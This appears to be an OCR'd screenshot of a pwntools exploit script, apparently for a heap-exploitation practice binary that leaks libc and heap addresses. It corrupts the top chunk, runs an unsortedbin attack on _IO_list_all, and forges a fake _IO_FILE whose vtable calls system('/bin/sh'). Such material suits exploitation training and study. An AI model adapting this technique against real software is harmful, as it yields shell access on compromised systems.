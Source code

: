 ```python
io = start()
io.timeout = 0.1
io.recvuntil(b'puts() @ ')
puts = int(io.recvline(), 16)
io.recvuntil(b'heap @ ')
heap = int(io.recvline(), 16)
libc.address = puts - libc.sym['puts']

info("libc base: " + hex(libc.address))

#===============================================================================================
# Create unsortedbin list

io.recvuntil(b'> ')
malloc_small()

#overwrite top chunk size field to initial new heap from kernel
edit(b'Y'*0x18 + p64(0x1000 - 0x20 + 1))

malloc_large()

#===============================================================================================
#unsortedbin attack

# =-=-=- PREPARE A FAKE _IO_FILE STRUCT -=-=-=

# Set up a fake _IO_FILE struct alongside an unsortedbin attack.
# This chunk is sorted into the 0x60 smallbin later, meaning a pointer to it will form
# the _chain member of the _IO_FILE struct overlapping the main arena.

#fp
flag = b'/bin/sh\x00'

size = 0x61
# A chunk's fd is ignored during a partial unlink.
fd = 0x0

# Set up the bk pointer of this free chunk to point near _IO_list_all.
# This way _IO_list_all is overwritten by a pointer to the unsortedbin during the unsortedbin attack.
bk = libc.sym['_IO_list_all'] - 0x10

# Ensure fp->_IO_write_ptr > fp->_IO_write_base.
write_base = 0x01
write_ptr = 0x02

# Ensure fp->_mode <= 0.
mode = 0x0

# For convenience place the pointer to system() in the last qword of the _IO_FILE struct,
# which is part of the _unused2 area.
# Set up the vtable pointer so that the __overflow entry overlaps this pointer.
vtable_ptr = heap + 0xd8



unsortedbin_attack = b'Y'*16 +\
flag + p64(size) +\
p64(fd)  + p64(bk) +\
p64(write_base) + p64(write_ptr) + p64(0)*18 +\
p32(mode) + p8(0)*12 +\
p64(libc.sym['system']) + p64(vtable_ptr)

```